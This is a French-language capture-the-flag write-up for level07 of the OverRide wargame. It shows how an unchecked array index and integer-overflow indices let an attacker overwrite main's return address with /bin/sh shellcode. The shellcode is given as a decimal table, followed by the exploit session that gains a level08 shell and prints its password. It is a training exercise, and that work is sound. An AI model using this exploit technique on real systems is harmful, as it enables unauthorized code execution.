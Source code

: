 ## level07
- L'examen du [code source désassemblé](/level07/source.c) fait penser qu'on pourrait profiter de la fonction `store_number` pour injecter un *shellcode*. Mais deux obstacles viennent entraver cette approche :
    - la fonction `main` commence par vider complètement les arguments du programme et l'environnement d'exécution. Donc on ne pourra pas placer notre *shellcode* dans l'environnement comme on a pu le faire dans le [niveau 04](/level04/Ressources/README.md).
    - dans `store_number`, le nombre donné ne sera stocké à l'index prévu que si `index` n'est pas un multiple de 3 (ou zéro) et que l'octet le plus significatif de `input` n'est pas égal à `0xb7` (183 en décimal). Mais, à part ça, il est possible de rentrer n'importe quel index (y compris supérieur à 100) ; or `number[100]` est défini comme variable locale dans `main` et est donc stocké sur la pile.

- Nous allons à chercher à écraser l'adresse de retour de `main` pour exécuter à la place notre *shellcode*.
    - Il faut tout d'abord déterminer où sont situés `number[100]` et l'adresse de retour de `main`, afin de pouvoir calculer le décalage permettant d'écraser la dernière depuis la première.
        - En désassemblant `main`, on voit que `number[100]` est placé en haut de la pile juste avant l'appel à `read_number`, à l'adresse `0x0804892b <+520>`. Nous allons y placer notre premier *breakpoint*. À la fin du `main`, on voit que le retour se fait à l'adresse `0x080489f1 <+718>` : nous y plaçons notre second *breakpoint*.
        - On lance le binaire avec l'instruction `read` pour arriver sur notre premier *breakpoint*. `x/x $esp` nous permet d'obtenir le contenu de l'ESP (`0xffffd544`). On poursuit l'exécution jusqu'à lancer l'instruction `quit` ; en arrivant sur notre second *breakpoint*, ``x/x $esp` nous informe que l'ESP est à l'adresse `0xffffd70c`.
        - `0xffffd70c` - `0xffffd520` = `0x1c8` (456 en décimal) => On utilisera un décalage de 114 (puisque l'on bouge par bloc de 4 octets).
    - Ensuite, on doit pouvoir retrouver l'adresse du tableau `number[100]` au moment de l'exécution.
        - On commence par un *breakpoint* sur `read_number` ; puis on lance le binaire avec l'instruction `read`. `info frame` nous apprend que `Previous frame's sp is 0xffffd520`. Avec `x 0xffffd520`, on sait que le *stack pointer* précédent contient la valeur `0xffffd544`.
        - `0xffffd520` - `0xffffd544` = `0x24` (36 en décimal) => on devra faire un `read` sur l'index -9 pour retrouver l'adresse de `number[100]` au moment de l'exécution
    - Enfin, il faut obtenir un *shellcode*. Comme il sera stocké dans `number`, il faut faire avec les contraintes sur `index` : zéro et tous les multiples de trois ne seront pas utilisables.
        - Mais il est possible de contourner cette limitation avec un [*integer overflow*](https://en.wikipedia.org/wiki/Integer_overflow), par exemple en utilisant 1073741824 (c'est-à-dire 2^32/4) au lieu de zéro. 
        - De même, on ne peut pas utiliser directement l'index 114 (c'est un multiple de 3) ; donc on devra stocker à l'index 1073741938 (1073741824 + 114).
        - En partant de ce [*shellcode*](http://shell-storm.org/shellcode/files/shellcode-575.php), on arrive à :  

        | Hexa de l'ASM | Nombre hexa | Nombre décimal |
        |---------------|-------------|----------------|
        | 6a 0b 58 99   | 0x99580b6a  | 2572684138     |
        | 52 68 2f 2f   | 0x2f2f6852  | 791636050      |
        | 73 68 68 2f   | 0x2f686873  | 795371635      |
        | 62 69 6e 89   | 0x896e6962  | 2305714530     |
        | e3 31 c9 cd   | 0xcdc931e3  | 3452514787     |
        | 80            | 0x80        | 128            |
        Les instructions correspondantes sont aussi dans le fichier [`payload.txt`](payload.txt).

- Au final, l'exploitation se fait facilement :
```
level07@OverRide:~$ cat /tmp/payload.txt - | ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
read
Input command:  Index: -9
 Number at data[4294967287] is 4294956388
 Completed read command successfully
store
Input command:  Number: 4294956388
 Index: 1073741938
 Completed store command successfully
quit
whoami
level08
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```